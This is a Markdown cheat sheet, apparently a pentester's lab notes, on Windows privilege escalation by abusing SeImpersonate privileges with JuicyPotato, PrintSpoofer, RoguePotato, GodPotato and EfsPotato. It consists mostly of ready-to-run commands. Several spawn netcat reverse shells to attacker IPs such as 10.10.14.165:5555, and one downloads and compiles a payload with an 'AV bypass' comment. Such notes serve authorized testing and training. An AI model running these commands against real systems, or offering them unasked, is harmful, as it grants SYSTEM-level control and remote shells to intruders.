 # SeImpersonate
or SeAssignPrimaryToken

> [!WARNING]
> **JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato) can be used to **leverage the same privileges and gain** `**NT AUTHORITY\SYSTEM**` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.
### JuicyPotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 

```powershell
reg query HKCR\CLSID
reg query HKLM\Software\Classes\CLSID


JuicyPotato.exe -l 1337 -p "C:\Users\sophie\nc.exe" -a "-e cmd.exe 10.10.14.6 4444" -t *
```

However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
### SharpEfsPotato
```
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
```
### EfsPotato
https://github.com/zcgonvh/EfsPotato
```
Invoke-WebRequest -Uri http://10.10.14.165:8000/EfsPotato.cs -OutFile EfsPotato.cs

# Bypass AV
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

./EfsPotato.exe '.\nc64.exe 10.10.14.165 5555 -e cmd'
```
### RoguePotato
```powershell
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999
```
### PrintSpoofer
```powershell
.\PrintSpoofer64.exe -c "C:\Users\Public\Documents\nc64.exe 10.10.14.165 5555 -e cmd"
```
### GodPotato
```powershell
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"
```

### References:
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer

https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/